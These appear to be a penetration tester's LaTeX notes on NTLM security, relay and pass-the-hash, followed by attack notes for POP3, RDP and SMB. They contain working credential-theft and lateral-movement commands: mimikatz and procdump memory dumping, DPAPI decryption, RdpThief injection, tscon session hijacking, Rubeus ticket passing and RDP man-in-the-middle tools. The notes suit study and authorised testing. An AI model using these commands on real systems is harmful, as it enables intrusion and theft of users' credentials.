\subsubsection{SMB integration}

SMB protocol works by using commands. They are \href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/5cd5747f-fe0b-40a6-89d0-d67f751f8232}{documented by Microsoft}, and there are many of them.

SMB also has a command dedicated to configuring an SMB session, and this command is \verb+SMB_COM_SESSION_SETUP_ANDX+. \href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/3a3cdd47-5b43-4276-91f5-645b82b0938f}{Two fields} are dedicated to the contents of the NTLM messages in this command.
\begin{itemize}
    \item 
        LM/LMv2 Authentication: OEMPassword
    \item 
        NTLM/NTLMv2 authentication: UnicodePassword
\end{itemize}

What is important to remember is that there is a specific SMB command with an allocated field for NTLM messages.


\subsection{NTLM Session Security overview}

If the client and server negotiate it, session security provides :
\begin{itemize}
    \item 
        \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/131b0062-7958-460e-bca5-c7a9f9086652}{message integrity} (signing) 
    \item
        \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/115f9c7d-bc30-4262-ae96-254555c14ea6}{message confidentiality} (sealing). Not supported by NTLMv1
\end{itemize}

The NTLM protocol itself does not provide session security; instead, SSPI provides it.

When NTLMv2 authentication is not negotiated, only one key is used for sealing. As a result, operations are performed in a half-duplex mode: the client sends a message and then waits for a server response.i

\subsubsection{Message signing}
{\bf Message signing} provides message integrity and helps against relay attacks

When session signing is negotiated, the client and server negotiate a session key to sign all messages exchanged.


Once the session key is established, all messages between the client and server are signed using a MAC.


During NTLM negociation client and server indicate if siging is {\bf supported} using \verb+NEGOTIATE_SIGN+ in \verb+NEGOCIATE_MESSAGE+ (client) \verb+CHALLENGE_MESSAGE+ (server)

\subsubsection{Message sealing}
{\bf Message sealing} provides message confidentiality by implementing a symmetric-key encryption mechanism; it ensures that the content of the messages exchanged between the client and server remains secure and that adversaries cannot read or tamper with them. In the context of NTLM, sealing also implies signing because every sealed message is also signed

\subsubsection{Channel binding / Extended Protection for Authentication (EPA)}
\href{https://learn.microsoft.com/fr-fr/dotnet/framework/wcf/feature-details/extended-protection-for-authentication-overview}{Extended Protection for Authentication (EPA)}, based on RFC 5056, is a feature introduced in Windows Server 2008 and later versions that enhance the security of NTLM authentication. When EPA is enabled, the client and server establish a {\bf secure channel} using a {\bf channel binding token (CBT)}. {\bf The CBT binds the authentication to the specific channel characteristics, such as the IP address and port, preventing the authentication from replaying on a different channel}. {\bf EPA is designed to work with SMB and HTTP protocols}, providing additional security for applications and services that rely on NTLM authentication; however, it requires the client and server to support it to establish a secure channel.

\href{https://learn.microsoft.com/fr-fr/windows/win32/secauthn/epa-support-in-service}{Prise en charge de la protection étendue de l’authentification (EPA, Extended Protection for Authentication) dans un service}

\subsection{Session signing}
\subsubsection{Security configuration}
The NTLM version used on hosts, whether NTLMv1 or NTLMv2, is configured out-of-band before authentication:
\begin{itemize}
    \item 
        \href{https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level}{for workstation}
    \item
        \href{https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj852207(v=ws.11)}{for server}
\end{itemize}


\begin{verbatim}
# registry to manage signing
HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel

# registry to manage authentication level
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
\end{verbatim}


\url{https://woshub.com/disable-ntlm-authentication-windows/}

\begin{verbatim}
# policy
Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> Security Options 
Network Security: Restrict NTLM: Audit NTLM authentication in this domain => Enable all

Computer Configurations -> Policies -> Windows Settings -> Security Settings -> Local Policies -> Security Options
Network Security: LAN Manager authentication level

\end{verbatim}


\href{https://www.it-connect.fr/comment-desactiver-le-protocole-ntlm-dans-un-domaine-active-directory/#B_Desactiver_le_protocole_NTLMv1}{Comment désactiver le protocole NTLM dans un domaine Active Directory}


\subsubsection{Session key}
The session key is generated for:
\begin{itemize}
    \item NTLMv1: using \verb+LmChallengeResponse+
    \item NTLMv2: using a combination of the client's and server's challenge messages and the user's password hash.
\end{itemize}

\begin{verbatim}
# For NTLMv1
Key = MD4(NT Hash)

# For NTLMv2
NTLMv2 Hash = HMAC_MD5(NT Hash, Uppercase(Username) + UserDomain)
Key = HMAC_MD5(NTLMv2 Hash, HMAC_MD5(NTLMv2 Hash, NTLMv2 Response + Challenge))
\end{verbatim}

With this information, we understand that:
\begin{itemize}
    \item client: can compute this key on his side, since he has all the information in hand to do so
    \item server: can only compute it by itself for local authentication
\end{itemize}

On the other hand, for \href{https://en.hackndo.com/pass-the-hash/#domain-account}{authentication with a domain account}, the server will have to ask the domain controller to compute the session key for him, and send it back. We saw in pass-the-hash article that the server sends a request to the domain controller in a \verb+NETLOGON_NETWORK_INFO+ structure and the domain controller responds with a \verb+NETLOGON_VALIDATION_SAM_INFO4+ structure. It is in this response from the domain controller that the session key is sent, if authentication is successful

The question then arises as to what prevents an attacker from making the same request to the domain controller as the target server. Well before \href{https://www.coresecurity.com/advisories/windows-pass-through-authentication-methods-improper-validation}{CVE-2015-005}, nothing!

To verify that only the server the user is authenticating to has the right to ask for the session key, the domain controller will verify that the target machine in the \verb+AUTHENTICATE+ response is the same as the host making the NetLogon request.

In the \verb+AUTHENTICATE+ response, we detailed the presence of \verb+msAvFlags+ indicating whether or not the MIC is present, but there is also other information, such as the Netbios name of the target machine.

This is the name that is compared with the host making the NetLogon request. Thus, if the attacker tries to make a NetLogon request for the session key, since the attacker’s name does not match the targeted host name in NTLM response, the domain controller will reject the request.

Finally, in the same way as \verb+msAvFlags+, we cannot change the machine name on the fly in the NTLM response, because it is taken into account in the calculation of the NTLMv2 response.

For information on how key exchange, signing, and sealing keys are generated, see :
\begin{itemize}
    \item 
        \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/d86303b5-b29e-4fb9-b119-77579c761370}{KXKEY} for NTLMv1
    \item
        \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/524cdccb-563e-4793-92b0-7bc321fce096}{SIGNKEY}, and \href{https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/bf39181d-e95d-40d7-a740-ab4ec3dc363d}{SEALKEY} for NTLMv2. 
\end{itemize}



\subsubsection{SMB Signature matrix}

According to 
\href{https://techcommunity.microsoft.com/t5/storage-at-microsoft/configure-smb-signing-with-confidence/ba-p/2418102}{The Basics of SMB Signing (covering both SMB1 and SMB2)}, the SMB session security is configured within registry: 
\begin{itemize}
    \item Client: \verb+HKLM\System\CurrentControlSet\Services\LanManWorkstation\Parameters+
    \item Server: \verb+HKLM\System\CurrentControlSet\Services\LanManServer\Parameters+
\end{itemize}

Two keys (\verb+DWORD+ value) are involved:
\begin{itemize}
    \item 
        \verb+RequireSecuritySignature+
    \item
        \verb+EnableSecuritySignature+ (Not used by SMBv2 and higher
\end{itemize}

for SMB1 signature requirements has 3 states:
\begin{itemize}
    \item \verb+Required+: \verb+RequireSecuritySignature = 1+
    \item \verb+Enabled+: \verb+EnableSecuritySignature = 1 and RequireSecuritySignature = 0+
    \item \verb+Disabled+: \verb+EnableSecuritySignature = 0 and RequireSecuritySignature = 0+
\end{itemize}

for SMB2 and higher signature requirements has 2 states:
\begin{itemize}
    \item \verb+Required+(\verb+RequireSecuritySignature = 1)+
    \item \verb+Not Required+ (\verb+RequireSecuritySignature = 0)+ equivalent to SMB1 \verb+Enabled+ state 
\end{itemize}

Default configuration is as follow:
\begin{verbatim}
Host 	                        Default Signing Setting
                        Client          Server
SMB1 	                Enabled         Disabled
SMB2 & SMB3             Not Required    Not Required
Domain Controllers 	    Required        Requiered
\end{verbatim}


{bf Signature matrix}: 

in summary:
\begin{itemize}
    \item for SMB2 or high: {\bf signed if one requires it}
    \item for SMB1:
\end{itemize}

\begin{figure}[!ht]
    
\includegraphics[width=\linewidth]{network/ntlm/images/smb_ntlm_signing_table.png}
  \caption{SMB NTLM signing matrix}
  \label{fig:smb_ntlm_signing_table}
\end{figure}



\subsubsection{LDAP Signature matrix}

For LDAP, there are also three levels:
\begin{itemize}
    \item 
        Disabled: This means that packet signing is not supported.
    \item 
        Negotiated Signing: This option indicates that the machine can handle signing, and if the machine it is communicating with also handles it, then they will be signed.
    \item 
        Required: This finally indicates that signing is not only supported, but that packets must be signed in order for the session to continue.
\end{itemize}


\begin{figure}[!ht]
    
\includegraphics[width=\linewidth]{network/ntlm/images/ldap_ntlm_signing_table.png}
  \caption{LDAP NTLM signing matrix}
  \label{fig:ldap_ntlm_signing_table}
\end{figure}

by default:
\begin{itemize}
    \item all hosts have Negotiated Signing setting. 
    \item the domain controller doesn’t require signing.
\end{itemize}


registry key \verb+ldapserverintegrity+:
\begin{itemize}
    \item DC: \verb+HKLM\System\CurrentControlSet\Services\NTDS\Parameters+
    \item client: \verb+HKLM\System\CurrentControlSet\Services\ldap+
\end{itemize}

value:
\begin{verbatim}
Never       	0
When Supported 	1
Always      	2
\end{verbatim}



\subsection{Authentication signing (MIC)}


The {\bf Message Integrity Code (MIC)} is a signature that is sent only in the last message of an NTLM authentication, the \verb+AUTHENTICATE+ message. It takes into account the 3 messages. The MIC is computed with \verb+HMAC_MD5+ function, using as a key that depends on the client’s secret, called the session key. Therefore, if only one of the 3 messages has been modified, the MIC will no longer be valid, since the concatenation of the 3 messages will not be the same

The MIC can't be removed because there is another flag that indicates that a MIC will be present, \verb+msAvFlags+. It is also present in NTLM response and if it is \verb+0x00000002+, it tells the server that a MIC must be present. So if the server doesn’t see the MIC, it will know that there is something going on, and it will terminate the authentication. If the flag says there must be a MIC, then there must be a MIC.

The \verb+msAcFlags+ can't be reset beacause of the \verb+NTLMv2 Hash+ which is the response to the challenge sent by the server, is a hash that takes into account not only the challenge (obviously), but also all the flags of the response. As you may have guessed, the flag indicating the MIC presence is part of this response.

The MIC protects the integrity of the 3 messages, the \verb+msAvFlags+ protects the presence of the MIC, and the NTLMv2 hash protects the presence of the flag. The attacker, not being aware of the user’s secret, cannot re-compute this hash.

It’s CVE-2019-1040 nicely named Drop the MIC. This vulnerability showed that if the MIC was just removed, even if the flag indicated its presence, the server accepted the authentication without flinching. This was obviously a bug that has since been fixed.

{\bf Drop The MIC 2}


\subsection{Channel Binding / EPA}

This security is built to protect cross-protocol relay.

The principle of this protection is to bind the authentication layer with the protocol in use, even with the TLS layer when it exists (LDAPS or HTTPS for example). The general idea being that in the last NTLM AUTHENTICATE message, a piece of information is put there and cannot be modified by an attacker. This information indicates the desired service, and potentially another information that contains the target server’s certificate’s hash.

\subsubsection{Service binding}

If a client wishes to authenticate to a server to use a specific service, the information identifying the service will be added in the NTLM response. This way, when the legitimate server receives this authentication, it can see the service that was requested by the client, and if it differs from what is actually requested, it will not agree to provide the service.

Since the service namei (SPN) is in the NTLM response, it is protected by the \verb+NtProofStr+ response, which is an \verb+HMAC_MD5+ of this information, the challenge, and other information such as \verb+msAvFlags+. It is computed with the client’s secret.

\subsubsection{TLS binding}

The purpose of this protection is to link the authentication layer, i.e. NTLM messages, to the TLS layer that can potentially be used.

If the client wants to use a protocol encapsulated in TLS (HTTPS, LDAPS for example), it will establish a TLS session with the server, and it will compute the server certificate hash. This hash is called the {\bf Channel Binding Token}, or CBT. Once computed, the client will put this hash in its NTLM response. The legitimate server will then receive the NTLM message at the end of the authentication, read the provided hash, and compare it with the real hash of its certificate. If it is different, it means he wasn’t the original recipient of the NTLM exchange.

Again, since this hash is in the NTLM response, it is protected by the \verb+NtProofStr+ response, like the SPN for Service Binding.

Thanks to this protection, the following two attacks are no longer possible :
\begin{itemize}
    \item  relay information from a client using a protocol without a TLS layer to a protocol with a TLS layer 
    \item relay a protocol with TLS to another protocol with TLS
\end{itemize}


\subsection{Stop. Using. NTLMv1.}

NTLMv2 hash takes into account the server’s challenge, but also the \verb+msAvFlags+ flag which indicates the presence of a MIC field, the field indicating the NetBios name of the target host during authentication, the SPN in case of service binding, and the certificate hash in case of TLS binding.

NTLMv1 protocol doesn’t do that. It only takes into account the server’s challenge. In fact, there is no longer any additional information such as the target name, the \verb+msAvFlags+, the SPN or the CBT.

So, if an NTLMv1 authentication is allowed by a server, an attacker can simply remove the MIC and thus relay authentications to LDAP or LDAPS, for example.

But more importantly, he can make NetLogon requests to retrieve the session key. Indeed, the domain controller has no way to check if he has the right to do so. And since it won’t block a production network that isn’t completely up to date, it will kindly give it to the attacker, for "retro-compatibility reasons".

Once he has the session key, he can sign any packet that he wants. It means that even if the target requests signing, he will be able to do so.

This is by design and it can not be fixed. So I repeat, do not allow NTLMv1 in a production network.

\section{NTLM Relay attack}
\url{https://en.hackndo.com/ntlm-relay/}








\begin{verbatim}
# Signing Disabled - Host Enumeration
crackmapexec smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt
\end{verbatim}



\section{Lateral mouvement}

\section{Pass the hash attack}
\label{kerberos:pth}
This  is a technique where an attacker obtains a user's NTLM password hash,  and subsequently passes the hash through for NTLM authentication  purposes. 
This works because systems do not actually validate a  user's password, but rather the hash of the password. This attack only  works against interactive logons using NTLM authentication.

This technic is worth trying for example with Local Administrator account since
dut to automatic mastering of endpoint the local Administrator hash might be
used on lot of endpoints.

tools allowing path the hash:
\begin{itemize}
    \item CrackMapExec
    \item impacket tools (psexec, smbclient, wmiexec, rpcdump, \ldots)
    \item metaploit
    \item empire
    \item pth toolkit
\end{itemize}

\subsubsection{links}
\begin{itemize}
    \item \url{https://en.hackndo.com/pass-the-hash/}
    \item \url{https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/}
\end{itemize}



\subsection{Overpass the hash}
\url{https://www.hackingarticles.in/lateral-movement-over-pass-the-hash/}




\chapter{POP3: Post Office Protocol}
\section{Introduction}

POP3, only provides listing, retrieving, and deleting emails as functions at the email server. Therefore, protocols such as IMAP must be used for additional functionalities such as hierarchical mailboxes directly at the mail server, access to multiple mailboxes during a session, and preselection of emails.


\section{Dangerous Settings}

See IMAP.

\section{Footprint and enumeration}
\subsection{nmap}
\begin{verbatim}
sudo nmap  -sV -p110,143,993,995 -sC
\end{verbatim}

\section{Interaction}
\subsection{Commands}
\begin{itemize}
        \item \verb+USER username+ 	Identifies the user.
        \item \verb+PASS password+ 	Authentication of the user using its password.
        \item \verb+STAT+ 	Requests the number of saved emails from the server.
        \item \verb+LIST+ 	Requests from the server the number and size of all emails.
        \item \verb+RETR id+ 	Requests the server to deliver the requested email by ID.
        \item \verb+DELE id+ 	Requests the server to delete the requested email by ID.
        \item \verb+CAPA+ 	Requests the server to display the server capabilities.
        \item \verb+RSET+ 	Requests the server to reset the transmitted information.
        \item \verb+QUIT+ 	Closes the connection with the POP3 server.
\end{itemize}

\subsection{openssl}

\begin{verbatim}
openssl s_client -connect IP:pop3s
\end{verbatim}

\chapter{PostGreSQL}
\href{https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql}{link}

\chapter{RDP: Remote Desktop Protocol}
\url{https://www.hackingarticles.in/remote-desktop-penetration-testing-port-3389/}
\section{Introduction}
The
\href{https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol}{Remote
Desktop Protocol (RDP)} is a protocol developed by Microsoft for remote access
to a computer running the Windows operating system. This protocol allows
display and control commands to be transmitted via the GUI encrypted over IP
networks. RDP works at the application layer in the TCP/IP reference model,
typically utilizing {\bf TCP port 3389} as the transport protocol. However, the
connectionless {\bf UDP protocol can use port 3389} also for remote administration.

For an RDP session to be established, both the network firewall and the
firewall on the server must allow connections from the outside. If
\href{https://en.wikipedia.org/wiki/Network_address_translation}{Network
Address Translation (NAT)} is used on the route between client and server, as
is often the case with Internet connections, the remote computer needs the
public IP address to reach the server. In addition, port forwarding must be set
up on the NAT router in the direction of the server.

RDP has handled
\href{https://en.wikipedia.org/wiki/Transport_Layer_Security}{Transport Layer
Security (TLS/SSL)} since Windows Vista, which means that all data, and
especially the login process, is protected in the network by its good
encryption. However, many Windows systems do not insist on this but still
accept inadequate encryption via
\href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rdpbcgr/8e8b2cca-c1fa-456c-8ecb-a82fc60b2322}{RDP
Security}. Nevertheless, even with this, an attacker is still far from being
locked out because the identity-providing certificates are merely self-signed
by default. This means that the client cannot distinguish a genuine certificate
from a forged one and generates a certificate warning for the user.

The Remote Desktop service is installed by default on Windows servers and does
not require additional external applications. This service can be activated
using the Server Manager and comes with the default setting to allow
connections to the service only to hosts with
\href{https://en.wikipedia.org/wiki/Network_Level_Authentication}{Network level authentication
(NLA)}.



\section{Enumeration}


\section{Interaction}
\subsection{xfreerdp}



\section{Attacks}
\section{Brute-force attack / password spraying}
\begin{itemize}
    \item crackmapexec~\ref{tool:crackmapexec}
    \item \href{https://github.com/galkan/crowbar}{Crowbar}
    \item hydra~\ref{tool:hdyra} 
\end{itemize}


\subsection{Dumping active Session Password}

\subsubsection{Manual}
\begin{verbatim}
# find termService pid
netstat -nob | Select-String TermService -Context 1

# dump the process
procdump64.exe -ma <PID> -accepteula C:\Users\pentestlab

# search for password
strings -el svchost* | grep Password123 -C3
\end{verbatim}

\subsubsection{mimikatz}
\begin{verbatim}
privilege::debug
ts::logonpasswords
\end{verbatim}

\subsection{mstsc cleat text passwords}

\subsubsection{mimikatz}
\begin{verbatim}
privilege::debug
ts::mstsc
\end{verbatim}

\subsubsection{SharpRDPThief}
The \verb+mstsc.exe+ process is created when a user opens the remote desktop connection application in order to connect to other systems via the RDP protocol. API hooking could be used to intercept the credentials provided by the user and use them for lateral movement. 

RdpThief which attempts to hook the functions used by mstsc process (CredIsMarshaledCredentialW \& CryptProtectMemory) in order to retrieve the credentials and write them into a file on the disk.

From a system that has been compromised and the mstsc.exe is running the DLL needs to be injected into the process.
\begin{verbatim}
SimpleInjector.exe mstsc.exe RdpThief.dll
\end{verbatim}


\href{https://github.com/passthehashbrowns/SharpRDPThief}{SharpRDPThief} can also be used


\subsection{Saved credentials}
RDP saved credentials are stored in an encrypted form in the Credential Manager of Windows by using the DPAPI

The location of the Windows Credentials on the disk is the following:
\begin{verbatim}
C:\Users\<USERNAME>\AppData\Local\Microsoft\Credentials
\end{verbatim}

The file can be viewed through the Mimikatz in order to identify the master key GUID:
\begin{verbatim}
dpapi::cred /in:C:\Users\<USERNAME>\AppData\Local\Microsoft\Credentials\<GUID>
\end{verbatim}

access the \verb+guidMasterKey+:
\begin{verbatim}
sekurlsa::dpapi
\end{verbatim}

then decrypt de data:
\begin{verbatim}
dpapi::cred /in:C:\Users\<USERNAME>\AppData\Local\Microsoft\Credentials\<GUID>
/masterkey:<MASTER_KEY>
\end{verbatim}

Executing the following command will provide the details in which server these credentials belong.
\begin{verbatim}
vault::list
\end{verbatim}



\subsection{Session Hijacking}
To successfully impersonate a user without their password, we need to have
\verb+SYSTEM+ privileges and use the Microsoft
\href{https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon}{tscon.exe} binary that enables users to connect to another desktop session.

\begin{verbatim}
# get sessions names
query user 

tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
\end{verbatim}


With \verb+local administrator+ privileges, there are several methods to obtain
\verb+SYSTEM+ privileges, such as
\href{https://docs.microsoft.com/en-us/sysinternals/downloads/psexec}{PsExec}
or \href{https://github.com/gentilkiwi/mimikatz}{Mimikatz}. A simple trick is
to create a Windows service using
\href{https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create}{Microsoft
sc.exe} that, by default, will run as Local System and will execute any binary with SYSTEM privileges. 

\begin{verbatim}
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
net start sessionhijack
\end{verbatim}
Once the service is started, a new terminal with the lewen user session will appear.


\subsection{Pass the hash}
In order to pass the hash restricted admin must be enabled
\begin{verbatim}
reg add HKLM\System\CurrentControlSet\Control\Lsa
    /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
\end{verbatim}

Once the registry key is added, we can use xfreerdp with the option /pth to
gain RDP access.

\subsection{Pass the ticket}
\href{https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/}{Remote Credential Guard Pass-the-ticket}

\begin{verbatim}
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe asktgt /ptt
mstsc.exe /restrictedAdmin
\end{verbatim}


\subsection{mitm}

\href{https://github.com/SySS-Research/Seth/blob/master/doc/paper/Attacking_RDP-Paper.pdf}{Attacking RDP Paper}

\subsubsection{pyrdp-mitm}

\href{https://github.com/GoSecure/pyrdp}{https://github.com/GoSecure/pyrdp}
\begin{verbatim}
pyrdp-mitm.py <IP>
pyrdp-mitp.py <IP>:<PORT> # with custom port
pyrdp-mitm.py <IP> -k private_key.pem -c certificate.pem # with custom key and certificate
\end{verbatim}


exploitation:
\begin{itemize}
    \item 
        If Network Level Authentication (NLA) is enabled, you will obtain the client's NetNTLMv2 challenge
    \item 
        If NLA is disabled, you will obtain the password in plaintext
\end{itemize}

\subsubsection{Seth}

performs ARP spoofing prior to launching the RDP listener

For more info see \href{https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/rdp-mitm}{RDP MiTM}


\href{https://github.com/SySS-Research/Seth}{Seth} is a tool written in Python and Bash to MitM RDP connections by attempting to downgrade the connection in order to extract clear text credentials. It was developed to raise awareness and educate about the importance of properly configured RDP connections in the context of pentests, workshops or talks. The author is Adrian Vollmer (SySS GmbH).

\begin{verbatim}
sudo ./seth.sh <interface> <Attacker-IP> <RDP-SOURCE-IP> <RDP-TARGET-IP>
\end{verbatim}

if pivoting need to reverse forward the \verb+3389+ port

\subsection{RDPInception}

If a user access via RDP into a machine where an attacker is waiting for him, the attacker will be able to inject a beacon in the RDP session of the user and if the victim mounted his drive when accessing via RDP, the attacker could access it.

In this case you could just compromise the victims original computer by writing a backdoor in the statup folder.

\section{Post-Exploit}

\subsection{Enable RDP}

\href{https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.TerminalServer::TS_DISABLE_CONNECTIONS}{registry related to RDP server win10}

\url{https://learn.microsoft.com/en-us/troubleshoot/windows-server/remote/rdp-error-general-troubleshooting}

Check whether a Group Policy Object (GPO) is blocking RDP on a local computer
\begin{verbatim}
gpresult /H c:\gpresult.html
\end{verbatim}

Check the status of the RDP listener:
\begin{verbatim}
'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "PortNumber"
# look for rdp-tcp
qwinsta
\end{verbatim}

Check firewall



\begin{verbatim}
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
# add that for remote assistance
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f

netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
\end{verbatim}





\chapter{SMB: Server Message Block}
\url{https://miloserdov.org/?p=4066}

\section{Introduction}
Port 445 is ‘SMB over IP’. 


SMB stands for ‘Server Message Blocks’. iSMB is also known as Common Internet File System. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.


The SMB protocol  can be used on top of its TCP/IP protocol or other network protocols.  Using the SMB protocol, an application (or the user of an application)  can access files or other resources at a remote server. This allows  applications to read, create, and update files on the remote server. It  can also communicate with any server program that is set up to receive  an SMB client request

\subsection{Working with SMB}
SMB functions as a request-response or  client-server protocol. The only time that the protocol does not work in  a response-request framework is when a client requests an opportunistic  lock (oplock) and the server has to break an existing oplock because  the current mode is incompatible with the existing oplock. Client  computers using SMB connect to a supporting server using NetBIOS over  TCP/IP, IPX/SPX, or NetBUI. Once the connection is established, the  client computer or program can then open, read/write, and access files  similar to the file system on a local computer.

\subsection{Versions of Windows SMB}
\begin{itemize}
\item CIFS: The old version of SMB, which was included in Microsoft Windows NT 4.0 in 1996.
\item SMB 1.0 / SMB1: The version used in Windows 2000, Windows XP, Windows Server 2003 and Windows Server 2003 R2.
\item SMB 2.0 / SMB2: This version used in Windows Vista and Windows Server 2008.
\item SMB 2.1 / SMB2.1: This version used in Windows 7 and Windows Server 2008 R2.
\item SMB 3.0 / SMB3: This version used in Windows 8 and Windows Server 2012.
\item SMB 3.02 / SMB3: This version used in Windows 8.1 and Windows Server 2012 R2.
\item SMB 3.1: This version used in Windows Server 2016 and Windows 10.
Presently, the latest version of SMB is  the SMB 3.1.1 which was introduced with Windows 10 and Windows Server  2016. This version supports AES 128 GCM encryption in addition to AES  128 CCM encryption added in SMB3, and implements pre-authentication  integrity check using SHA-512 hash. SMB 3.1.1 also makes secure  negotiation mandatory when connecting to clients using SMB 2.x and  higher.
\end{itemize}

\subsection{SMB Protocol Security}
The SMB protocol supports two levels of  security: 
\begin{itemize}
    \item share level:  The server is protected at this  level and each share has a password. The client computer or user has to  enter the password to access data or files saved under the specific  share. This is the only security model available in the Core and Core  plus SMG protocol definitions. 
    \item User level: protection was later added to  the SMB protocol. It is applied to individual files and each share is  based on specific user access rights. Once a server authenticates the  client, he/she is given a unique identification (UID) that is presented  upon access to the server. The SMB protocol has supported individual  security since LAN Manager 1.0 was implemented.
\end{itemize}

\subsection{IPC\$ share}
With an anonymous null session you can access the IPC\$ share and interact with services exposed via named pipes. The enum4linux utility within Kali Linux is particularly useful; with it, you can obtain the following:
\begin{itemize}
\item Operating system information
\item Details of the parent domain
\item A list of local users and groups
\item Details of available SMB shares
\item The effective system security policy
\end{itemize}


\subsection{SMB NULL session}
SMB NULL session can be enumerated easily. For enumeration, we can use tools such as enum4linux, CrackMapExec, rpcclient, etc.

\section{Footprint / enumeration}
\url{https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/}
\label{network:smb:enum}

SMB protocol allow to enumerate lo of elements:
\begin{itemize}
    \item domain SID
    \item RID
    \item users
    \item pssword policy
    \item \ldots
\end{itemize}


\subsection{mount}

\begin{verbatim}
sudo mount -t cifs -o ro,username=TempUser,password=welcome2019 \
    '//10.10.10.178/Secure$' ./tmp/a
\end{verbatim}

\subsection{smbclient}
\begin{verbatim}
# detect Windows computers with shares
sudo smbtree -N


# enum shares with a user
smbclient -L //IP -U USER_NAME

# annymously list shared folders available on the computer
sudo smbclient -L //IP -N

# annymously connect to the network folde
smbclient //IP/SHARE_FOLDER -N

smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'

# Check NTFS ADS
